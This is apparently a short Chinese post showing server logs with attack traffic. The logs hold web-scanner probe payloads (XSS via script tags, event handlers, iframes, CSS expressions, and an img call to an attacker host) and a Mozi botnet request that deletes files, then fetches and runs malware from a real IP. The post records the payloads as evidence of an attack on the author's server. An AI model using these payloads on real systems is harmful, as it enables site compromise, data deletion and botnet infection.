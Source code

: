 ```log
$冬天"}body{acu:Expre/**/SSion(hZEn(9445))}
创建
$冬天"<% contenteditable onresize%3DhZEn(9649)>
创建
$冬天";qCg0C
1<ScRiPt>hZEn(9832)</ScRiPt>
创建
$冬天"<WLN7DP>EGQMD[!+!]</WLN7DP>
创建
$冬天"<ifRAme sRc=9716.com></IfRamE>
创建
$冬天"<Hu44hC x=9426>
创建
$冬天"<img sRc='http://attacker-9545/log.php?
创建
$冬天"<Xm65DE<
创建
$冬天";9182"();}]9896
创建
$冬天";9549"();}]9642
创建
$冬天;937343@
创建
$冬天;</title>1<ScRiPt>hZEn(9118)</ScRiPt>
创建
$冬天;"onmouseover='hZEn(90782)'bad="
创建
$冬天;"RfAn='hZEn([!+!])'Hfg="
创建
$冬天;\u0022onmouseover='hZEn(99513)'bad=\u0022
创建
$冬天;"onmouseover='hZEn(95684)'bad="
创建
$冬天;"sTYLe='acu:Expre/**/SSion(hZEn(9502))'bad="
创建
$冬天;;9290"();}]9418
创建
$冬天;;9929"();}]9955
```

看起来应该是一段脚本，说明很有可能就是通过这个 log 进行攻击了。

最终又发现了下面这段：

```sh
{
  statusCode: 404,
  path: '/shell?cd+/tmp;rm+-rf+*;wget+http://112.237.126.211:41220/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws',
  message: 'This page could not be found'
}
```
